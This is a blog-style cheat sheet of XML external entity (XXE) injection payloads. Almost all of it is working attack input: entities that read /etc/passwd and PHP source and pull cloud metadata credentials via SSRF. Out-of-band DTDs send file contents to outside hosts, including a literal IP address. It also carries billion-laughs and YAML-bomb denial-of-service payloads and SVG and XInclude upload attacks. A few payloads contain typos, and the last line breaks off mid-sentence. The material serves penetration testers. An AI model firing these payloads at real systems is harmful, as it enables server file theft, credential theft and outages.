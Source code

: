 ```yaml
---
layout: post
title: Cheat Sheat XXE injection
date: 2020-12-20 00:00:00 +5:30
categories: [WebApp]
tags: [WepApp] # add tag
---
```


# XXE

## Summary

XML external entity injection \(also known as XXE\) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.


Detecion:

```bash
# Content type "application/json" or "application/x-www-form-urlencoded" to "applcation/xml".
# File Uploads allows for docx/xlsx/pdf/zip, unzip the package and add your evil xml code into the xml files.
# If svg allowed in picture upload, you can inject xml in svgs.
# If the web app offers RSS feeds, add your milicious code into the RSS.
# Fuzz for /soap api, some applications still running soap apis
# If the target web app allows for SSO integration, you can inject your milicious xml code in the SAML request/reponse
```

Check:

```bash
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY test "THIS IS A STRING!">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

If works, then:

```bash
<?xml version="1.0"?>
<!DOCTYPE a[<!ENTITY test SYSTEM "file:///etc/passwd">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

Tools:

```
# https://github.com/BuffaloWill/oxml_xxe
# https://github.com/enjoiz/XXEinjector
```

Attacks:


Get PHP file:
```bash
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<methodCall><methodName>&test;</methodName></methodCall>
```
Classic XXE Base64 encoded
```bash
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
Check if entities are enabled
```bash
<!DOCTYPE replace [<!ENTITY test "pentest"> ]>
 <root>
  <xxe>&test;</xxe>
 </root>
```
XXE LFI:
```bash
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
XXE Blind LFI:
```bash
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```
XXE Access control bypass
```bash
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```
XXE to SSRF:
```bash
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
XXE OOB
```bash
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://example.com/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```
PHP Wrapper inside XXE
```bash
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.bae64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```
Deny Of Service - Billion Laugh Attack
```bash
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
Yaml attack
```bash
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
XXE OOB Attack (Yunusov, 2013)
```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```
XXE OOB with DTD and PHP filter
```bash
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://92.222.81.2/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://92.222.81.2/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://92.222.81.2/dtd.xml?%data;'>">
```
XXE Inside SOAP
```bash
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
XXE PoC
```bash
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```
XXE file upload SVG
```bash
<svg>&xxe;</svg>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  
```
XXE Hidden Attack

- Xinclude

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Set the value of the productId parameter to:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

- File uploads:
```bash
Create a local SVG image with the following content:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
Post a comment on a blog post, and upload this image as an avatar.
When you view your comment, you should see the contents of the /etc/hostname file in your image. Then use the "Submit solution" but
```
